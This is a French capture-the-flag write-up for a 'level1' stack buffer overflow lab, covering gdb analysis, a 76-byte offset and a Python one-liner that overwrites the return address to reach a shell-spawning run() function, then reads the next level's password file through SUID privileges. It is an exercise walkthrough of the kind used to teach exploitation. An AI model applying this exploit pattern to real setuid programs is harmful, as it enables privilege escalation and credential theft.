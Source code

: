 # level1 - Stack Buffer Overflow

Le niveau nécessite l'exploitation d'un buffer overflow pour rediriger l'exécution vers une fonction `run()` qui exécute un shell.

## Analyse du Programme

**Structure de la Stack**
- La fonction `gets()` est utilisée sans vérification de taille
- Le buffer overflow permet de réécrire l'adresse de retour (saved EIP)
- L'adresse de `run()` est `0x8048444`

## Exploitation du Buffer Overflow

**Localisation de l'Adresse de Retour**
```bash
(gdb) i f
Stack level 0, frame at 0xbffff740:
eip = 0x8048481 in main; saved eip 0xb7e454d3
```

**Calcul de l'Offset**
- Utilisation d'un pattern cyclique pour trouver l'offset précis
- L'offset entre le début du buffer et EBP+4 est de 76 bytes

**Construction de l'Exploit**
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

L'exploit fonctionne en:
1. Remplissant 76 bytes avec des "A"
2. Ajoutant l'adresse de `run()` en little-endian
3. Maintenant le shell ouvert avec `cat`

## Obtention du Flag
```bash
cat /home/user/level2/.pass
```

Cette méthode fonctionne car le programme est compilé avec le bit SUID, permettant l'exécution du shell avec les privilèges de level2.

